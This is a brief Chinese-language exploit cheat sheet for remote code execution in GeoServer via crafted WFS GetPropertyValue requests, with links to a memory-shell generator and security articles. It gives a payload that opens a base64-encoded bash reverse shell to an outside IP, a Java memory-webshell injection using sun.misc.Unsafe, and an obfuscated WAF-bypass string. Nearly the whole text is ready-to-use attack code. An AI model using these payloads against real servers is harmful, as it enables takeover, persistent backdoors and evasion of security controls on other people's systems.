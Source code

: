 GeoServer https://mp.weixin.qq.com/s/7FGOddQdXJsy7FF_hJAGSQ

https://github.com/pen4uin/java-memshell-generato

## 执行命令
```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTIzLzg4NzcgMD4mMQ==}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>
```
```xml
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lan
g.Runtime.getRuntime().exec("open -na Calculator")')
```

## 注入内存马
```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
 <wfs:Query typeNames='sf:archsites'/>
 <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManage
r.new(),'js'),'
var str="";
var bt;
try {
 bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().d
ecodeBuffer(str);
} catch (e) {
 bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredFiel
d("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), b
t, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

## 绕过WAF
```xml
/+java.lang.T<!--IgnoreMe!!!!-->hread.s[(: IGNORE :)]leep&#010;&#032;&#009;<![CDATA[ (2000) ]]>
```

## 参考
https://xz.aliyun.com/t/14991?time__1311=GqAh0IqGxmxfx0v44%2BxCqM67GCCqX3x

https://m.freebuf.com/articles/web/203537.html

https://blog.csdn.net/baidu_25299117/article/details/140305513

https://cn-sec.com/archives/2921958.html


